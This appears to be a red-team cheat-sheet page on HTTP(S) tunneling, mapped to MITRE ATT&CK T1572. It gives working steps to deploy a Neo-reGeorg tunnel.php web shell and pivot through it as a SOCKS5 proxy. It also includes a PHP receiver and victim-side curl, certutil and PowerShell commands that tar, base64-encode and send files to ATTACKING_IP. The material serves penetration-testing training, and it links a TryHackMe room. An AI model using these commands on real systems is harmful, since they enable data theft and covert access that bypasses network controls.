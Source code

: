 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572
---
```


# HTTP(s) Tunneling

## Theory

Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel. We can pivoting throught this.

{% hint style="danger" %}
We can also use HTTP(S) Tunneling as a good [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:

```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host then on a webserver. On the attacking machine we can do:

```bash
#Establish sock5 proxy
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php

#We can now use it as sock5 proxy 
v4resk@kali$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
{% endtab %}

{% tab title="Curl" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

<pre class="language-bash"><code class="lang-bash"># Start server on port 80
<strong>v4resk㉿kali$ php -S 0.0.0.0:80
</strong></code></pre>

On the victime computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - Bashed | base64)" http://ATTACKING_IP/

# Windows
# Base64 file, and send 
user$ certutil -encode fileToSend b64FileToSend
user$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@b64FileToSend" https://ATTACKING_IP/
user$ Invoke-WebRequest -Method POST -ContentType "application/octet-stream" -InFile "b64FileToSend" -Uri https://ATTACKING_IP/d
```

On attacking machine, we can decode now decode it:

<pre class="language-bash"><code class="lang-bash"># Decode compressed folders
<strong>v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
</strong><strong>
</strong><strong># Decode windows file 
</strong>v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d
</code></pre>
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
